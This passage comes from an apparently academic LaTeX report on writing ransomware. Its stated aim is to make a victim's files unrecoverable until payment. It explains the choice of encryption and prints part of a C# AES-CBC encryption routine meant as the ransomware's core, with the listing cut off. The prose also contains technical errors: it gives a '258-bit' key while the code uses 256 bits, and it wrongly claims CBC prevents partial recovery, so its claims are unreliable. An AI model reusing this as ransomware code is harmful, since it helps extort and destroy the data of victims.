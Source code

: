 After finding the files, the next step is the encryption. As a ransomeware-writer our goal is to make the files of the victim unrecoverable till the victim pays. For our ransomeware we used  the same tactic as most recent ransomeware, namely using the public availably encryption libraries.\\

We used the System.Security.Cryptography Namespace from the .NET framework. From this library we used the encryption algorithm Advanced Encryption Standard (AES) with a key size of 258 bits and Cipher block chaining as mode. This choice is well-considered. AES is a symmetric-key algorithm, which make it possible to encrypt a lot of data very fast. This is not the case with an asymmetric encryption algorithm, which is slower on big amounts of data. The key size of 258 bits makes it impossible the crack the key with current computers. And at last is the Cipher block chaining also an import setting. It makes partial recovery and recovery after modifying the files impossible.

\begin{lstlisting}[frame=single, showstringspaces=false] 
  

        //AES encryption algorithm
        public byte[] AES_Encrypt(byte[] bytesToBeEncrypted, byte[] passwordBytes)
        {
            byte[] encryptedBytes = null;
            byte[] saltBytes = new byte[] { 5, 8, 10, 78, 90, 56, 7, 8 };
            using (MemoryStream ms = new MemoryStream())
            {
                using (RijndaelManaged AES = new RijndaelManaged())
                {
                    AES.KeySize = 256;
                    AES.BlockSize = 128;

                    var key = new Rfc2898DeriveBytes(passwordBytes, saltBytes, 1000);
                    AES.Key = key.GetBytes(AES.KeySize / 8);
                    AES.IV = key.GetBytes(AES.BlockSize / 8);

                    AES.Mode = CipherMode.CBC;

                    using (var cs = new CryptoStream(ms, AES.CreateEncryptor(), CryptoStreamMode.Write))
                    {
                        cs.Write(bytesToBeEncrypted, 0, bytesToBeEncrypted.Length);
                        cs.Close();
                    }
                    encryptedBytes = ms.ToArray();
                }
            }



\end{lstlisting}

